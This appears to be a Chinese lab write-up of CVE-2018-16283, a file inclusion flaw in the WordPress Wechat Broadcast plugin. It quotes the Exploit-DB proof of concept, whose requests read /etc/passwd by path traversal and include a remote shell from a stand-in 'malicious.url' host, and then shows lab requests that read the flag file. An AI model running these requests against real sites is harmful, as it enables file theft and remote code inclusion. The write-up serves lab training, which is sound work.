 ```yaml
---
title: "CVE-2018-16283"
date: 2024-07-24
tags: ["春秋云镜","CVE","WordPress","LFI"]
featured_image: "https://static.guyu.pro/yunjing.ichunqiu.com/CVE.webp"
draft: false
---
```



<https://www.exploit-db.com/exploits/45438>


## WordPress Plugin Wechat Broadcast 1.2.0 - Local File Inclusion

```http
# Exploit Title: WordPress Plugin Wechat Broadcast 1.2.0 - Local File Inclusion
# Author: Manuel Garcia Cardenas
# Date: 2018-09-19
# Software link: https://es.wordpress.org/plugins/wechat-broadcast/
# CVE: CVE-2018-16283

# Description
# This bug was found in the file: /wechat-broadcast/wechat/Image.php
# echo file_get_contents(isset($_GET["url"]) ? $_GET["url"] : '');
# The parameter "url" it is not sanitized allowing include local or remote files
# To exploit the vulnerability only is needed use the version 1.0 of the HTTP protocol 
# to interact with the application.

# PoC
# The following URL have been confirmed that is vulnerable to local and remote file inclusion.

GET /wordpress/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../etc/passwd

# Remote File Inclusion POC:

GET /wordpress/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=http://malicious.url/shell.txt
```

## 演示

环境: [春秋云镜 免费空间>CVE-2018-16283](https://yunjing.ichunqiu.com/cve/detail/899)

### 1.验证

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/1.webp)

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../etc/passwd>

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/2.webp)

### 2.利用

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../flag> 

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/3.webp)

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=file:///flag> 

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/4.webp)
